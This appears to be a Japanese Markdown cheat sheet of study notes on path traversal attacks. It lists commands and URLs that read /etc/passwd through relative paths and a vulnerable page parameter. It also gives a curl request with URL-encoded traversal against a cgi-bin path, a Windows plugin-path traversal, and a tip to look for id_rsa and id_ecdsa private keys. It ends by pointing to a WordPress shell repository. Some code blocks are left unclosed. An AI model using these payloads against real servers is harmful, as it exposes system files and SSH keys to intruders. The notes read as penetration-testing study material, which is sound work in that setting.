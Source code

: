 
以下は、ファイルのパスを使用した攻撃手法に関する情報を整理したMarkdownファイルです。

markdown

# ファイルのパスを使用した攻撃手法

## `/etc/passwd`ファイルの表示

### 絶対パスを使用して表示
```bash
cat /etc/passwd
```
### 相対パスを使用して表示
```bash
cat ../../../etc/passwd
```
例: 現在のディレクトリが/var/log/の場合、/etc/passwdを表示するには次のようにします：
```bash
cat ../../etc/passwd
```
### Webアプリケーションでの悪用
パラメータを利用した悪用例
Webアプリケーションでパラメータが悪用される可能性があります。以下はその例です：

http
```bash
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
この例では、pageパラメータを利用してサーバーの/etc/passwdファイルにアクセスしています。
#### id_rsaやid_ecdsaファイルの確認
特定のファイルが存在するか確認するために、id_rsaやid_ecdsaなどのファイルをチェックすることが重要です。
出力が正しくフォーマットされない場合
出力が正しく表示されない場合は、curlを使用して内容を確認することができます：

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
Windows環境での悪用
Windows環境では、ドライブ指定が不要なため、以下のように悪用できます：

http

http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt
URLエンコード
パスが表示されない場合
パスが直接表示されない場合は、URLエンコードを使用してパスをエンコードします：

```bash

curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
WordPressの脆弱性
簡単なエクスプロイト
WordPressの脆弱性を利用する簡単なエクスプロイト例です：

GitHubリポジトリ: leonjza/wordpress-shell
